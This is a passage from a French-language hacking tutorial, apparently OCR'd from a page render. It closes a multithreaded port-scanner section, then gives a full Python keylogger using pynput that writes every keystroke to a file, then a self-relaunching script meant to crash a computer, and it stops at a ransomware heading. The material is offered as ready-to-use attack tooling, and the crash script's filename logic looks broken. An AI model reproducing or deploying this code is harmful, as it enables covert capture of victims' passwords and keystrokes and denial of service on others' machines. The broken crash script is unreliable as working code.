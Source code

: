 Ce code va initialiser 30 threads qui vont simultanément scanner les ports 1 à 1000 de la machine cible. Chaque thread prendra un port de la queue, essaiera de se connecter à ce port, puis passera au port suivant jusqu'à ce que la queue soit vide.

#### Conclusion
En utilisant le multithreading, le processus de scan de ports est beaucoup plus rapide que de scanner chaque port séquentiellement. Vous pouvez ajuster le nombre de threads pour trouver le meilleur équilibre entre rapidité et consommation de ressources système.

# Étape 4 : Keylogger en Python

Nous allons maintenant créer un keylogger simple en utilisant la bibliothèque `pynput`.

#### Installer `pynput`
D'abord, nous devons installer `pynput`. Assurez-vous d'utiliser la version 1.6.8 pour éviter des problèmes de compatibilité.

```bash
pip install pynput==1.6.8
```

#### Script du Keylogger
Voici le script complet pour le keylogger.

```python
from pynput.keyboard import Listener

def on_press(key):
    with open('log.txt', 'a') as f:
        f.write(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

Ce script enregistre toutes les touches pressées dans un fichier `log.txt`.

# Étape 5 : Crasher un Ordinateur avec un Script Python

Nous allons créer un script Python très simple qui se relance en boucle pour crasher l'ordinateur.

#### Script pour Crasher l'Ordinateur

```python
import os

while True:
    os.startfile(__file__[:-2] + 'exe')
```

Ce script ouvre continuellement le fichier lui-même jusqu'à ce que l'ordinateur manque de ressources et se crash.

### Étape 6 : Ransomware en Python
